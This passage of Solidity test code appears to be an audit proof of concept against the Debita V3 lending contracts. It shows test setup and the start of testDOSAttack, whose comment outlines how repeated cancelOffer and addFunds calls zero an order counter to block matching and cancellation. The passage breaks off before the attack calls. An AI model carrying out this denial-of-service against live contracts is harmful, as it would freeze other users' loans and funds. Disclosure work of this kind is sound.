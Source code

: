 ```solidity
            address(auctionFactoryDebitaContract),
            address(loanInstance)
        );

        USDC = address(USDCContract);
        wETH = address(wETHContract);

        wETHContract.mint(address(this), 15 ether);
        wETHContract.mint(lender1, 5 ether);
        wETHContract.mint(lender2, 5 ether);
        wETHContract.mint(lender3, 5 ether);


        ownershipsContract.setDebitaContract(
            address(DebitaV3AggregatorContract)
        );

        incentivesContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        DLOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        DBOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        auctionFactoryDebitaContract.setAggregator(
            address(DebitaV3AggregatorContract)
        );
    }


    // Attack path:
    // 1. multiple lend offers are created
    // 2. borrow offer is created
    // 3. lender1 executes cancelOffer -> addFunds multiple times until DLOFactory::activeOrdersCount == 0
    // 4. user calls matchOffersV3 and another lender calls cancelOffer. Both should fail
    function testDOSAttack() public {
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);
        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratioLenders[0] = 1e18;
        ratio[0] = 1e18;
        acceptedPrinciples[0] = wETH;
        acceptedCollaterals[0] = USDC;
        oraclesActivated[0] = false;
```